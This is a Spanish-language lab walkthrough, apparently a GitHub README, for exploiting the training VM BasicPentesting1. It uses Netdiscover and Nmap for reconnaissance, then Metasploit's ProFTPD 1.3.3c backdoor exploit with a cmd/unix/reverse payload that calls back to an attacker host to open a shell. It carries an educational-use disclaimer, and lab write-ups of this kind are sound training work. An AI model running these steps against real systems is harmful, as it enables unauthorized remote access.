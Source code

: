 
# 🚀 FTP Exploitation - Basic Pentesting 1 

## 📚 Descripción
En esta documentación se detalla el proceso de explotación de la máquina BasicPentesting1, un sistema Linux con un servicio **FTP (ProFTPD 1.3.3c)** activo. A través de diferentes herramientas de pentesting, se identifican posibles vulnerabilidades y se utiliza **Metasploit** para su explotación.

El procedimiento incluye:

- **Identificación de la IP** de la máquina objetivo con **Netdiscover**.
- **Escaneo de puertos y detección de servicios** con **Nmap**.
- **Búsqueda de exploits** disponibles en **Metasploit**.
- **Configuración del exploit y payload** para obtener acceso al sistema.
- **Ejecución del exploit** y validación del acceso obtenido.

## ⛔ Advertencia
Este repositorio y su contenido han sido creados **exclusivamente con fines educativos, académicos y de investigación en ciberseguridad.**

❌ **Prohibido el uso malintencionado:** El uso de este código para atacar sistemas sin la autorización explícita de sus propietarios **está estrictamente prohibido** y puede violar leyes locales, nacionales e internacionales.

✅ **Entornos controlados:** Se recomienda ejecutar este exploit **únicamente en entornos de pruebas controlados y sistemas que poseas o cuentes con permiso explícito para auditar.**

⚖️ **Responsabilidad:** El autor de este repositorio **no se hace responsable** de cualquier daño, pérdida o acción legal derivada del uso inapropiado de este código.

**Al utilizar este repositorio, aceptas y comprendes estas condiciones.** Si no estás de acuerdo, por favor, no clones ni utilices este código.

**La ciberseguridad es una responsabilidad compartida. Úsalo con ética y respeto. 🚀**

## 🔨 Requisitos
Antes de comenzar, asegúrate de tener lo siguiente:
- **Máquina objetivo:** Basic Pentesting 1 (Linux)
- **Máquina atacante:** Kali Linux 
- **Herramientas necesarias:** Netdiscover, Nmap, Metasploit 

## 🎯 Uso
Identificar la IP de la máquina 
- Ejecuta Netdiscover para encontrar la dirección IP de la máquina objetivo.
- Asegúrate de que la máquina Basic Pentesting 1 y tu Kali Linux estén en la misma red Red NAT.

```
IP: 192.168.10.11
```
<p align="center">
  <img src="https://raw.githubusercontent.com/ElChe1/Explotation-Lab/main/FTP%20Exploitation-BasicPentesting1/media/img/netdiscover.png" alt="netdiscover" style="border-radius: 10px;">
</p>

<br>

Para identificar la versión del servicio FTP y el puerto en el que está escuchando, ejecuta Nmap sobre la máquina BasicPentesting1.
```
sudo nmap -sV 192.168.10.11
```
<p align="center">
  <img src="https://raw.githubusercontent.com/ElChe1/Explotation-Lab/main/FTP%20Exploitation-BasicPentesting1/media/img/nmap.png" alt="nmap" style="border-radius: 10px;">
</p>

<br>

Para comprobar si la versión de ProFTPD 1.3.3c es explotable, ejecuta Metasploit y realiza una búsqueda de exploits disponibles.
```
msf6 > search ProFTPD 1.3.3c
```
<p align="center">
  <img src="https://raw.githubusercontent.com/ElChe1/Explotation-Lab/main/FTP%20Exploitation-BasicPentesting1/media/img/search.png" alt="search" style="border-radius: 10px;">
</p>

<br>

Una vez identificado un exploit para **ProFTPD 1.3.3c**, sigue estos pasos para configurarlo y buscar payloads compatibles.
Si el comando search ProFTPD 1.3.3c muestra un exploit válido.
```
msf6 > use 0
```
<p align="center">
  <img src="https://raw.githubusercontent.com/ElChe1/Explotation-Lab/main/FTP%20Exploitation-BasicPentesting1/media/img/use.png" alt="use" style="border-radius: 10px;">
</p>

<br>

Después de seleccionar el exploit, verifica las opciones necesarias.
```
msf6 > show options
```
<p align="center">
  <img src="https://raw.githubusercontent.com/ElChe1/Explotation-Lab/main/FTP%20Exploitation-BasicPentesting1/media/img/show_options.png" alt="show_options" style="border-radius: 10px;">
</p>

<br>


Para ver los payloads compatibles con el exploit.
```
msf6 > show payloads
```
<p align="center">
  <img src="https://raw.githubusercontent.com/ElChe1/Explotation-Lab/main/FTP%20Exploitation-BasicPentesting1/media/img/show_payload.png" alt="show_payload" style="border-radius: 10px;">
</p>

<br>

Selecciona el payload adecuado para conseguir una conexión inversa.
```
msf6 > set payload payload/cmd/unix/reverse
```
<p align="center">
  <img src="https://raw.githubusercontent.com/ElChe1/Explotation-Lab/main/FTP%20Exploitation-BasicPentesting1/media/img/payload.png" alt="payload" style="border-radius: 10px;">
</p>

<br>

Una vez seleccionado el exploit y el payload adecuado, configura las opciones necesarias.
Ejecuta los siguientes comandos dentro de Metasploit.
```
msf6 > set rhosts 192.168.10.11
msf6 > set rport 21
msf6 > set lhost 192.168.10.4
msf6 > set lport 2222
```
<p align="center">
  <img src="https://raw.githubusercontent.com/ElChe1/Explotation-Lab/main/FTP%20Exploitation-BasicPentesting1/media/img/configuracion.png" alt="configuracion" style="border-radius: 10px;">
</p>

<br>


Una vez configuradas las opciones, lanza el exploit.
```
msf6 > run
```
<p align="center">
  <img src="https://raw.githubusercontent.com/ElChe1/Explotation-Lab/main/FTP%20Exploitation-BasicPentesting1/media/img/run.png" alt="run" style="border-radius: 10px;">
</p>

<br>
